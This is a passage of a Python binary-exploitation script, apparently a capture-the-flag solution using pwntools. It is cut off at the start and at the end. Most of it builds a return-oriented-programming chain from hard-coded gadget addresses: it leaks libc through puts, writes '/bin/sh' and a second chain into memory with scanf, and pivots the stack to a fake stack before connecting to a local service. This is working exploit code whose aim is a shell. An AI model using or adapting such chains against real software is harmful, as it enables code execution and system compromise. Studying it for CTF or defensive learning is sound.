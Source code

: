 ```python
    "puts_got": elf.got["puts"],
    "puts_libc": libc.symbols["puts"],
    "fake_stack": 0x404800
}

rpg = {
    "pop_rdi": 0x4013a3,
    "pop_rsi_r15": 0x4013a1,
    "pop_rbp": 0x40115d,
    "leave": 0x40133e,  # mov rsp, rbp; pop rbp
    "ret": 0x40101a
}

dump_hex_dict(addrs)
dump_hex_dict(rpg)


payload = [i+1 for i in range(16)]
payload += [-1, 0, 0, 19, 0]

rop_payload = [
    # libc leak
    rpg["pop_rdi"],
    addrs["puts_got"],
    addrs["puts_plt"],
    # write `%s` to bss
    rpg["pop_rdi"],
    addrs["%lld"],
    rpg["pop_rsi_r15"],
    addrs["%s"],
    0,
    rpg["ret"],
    addrs["scanf_plt"],
    # write `/bin/sh` to bss
    rpg["pop_rdi"],
    addrs["%s"],
    rpg["pop_rsi_r15"],
    addrs["/bin/sh"],
    0,
    addrs["scanf_plt"],
    # write rop chain to fake stack
    rpg["pop_rdi"],
    addrs["%s"],
    rpg["pop_rsi_r15"],
    addrs["fake_stack"],
    0,
    addrs["scanf_plt"],
    # stack pivot
    rpg["pop_rbp"],
    addrs["fake_stack"],
    rpg["leave"]
]

payload += rop_payload

n = len(payload)
payload[16] = n

sc = remote("localhost", 13337)

# input("[+] Attach")

sc.recvuntil(b"n: ")
```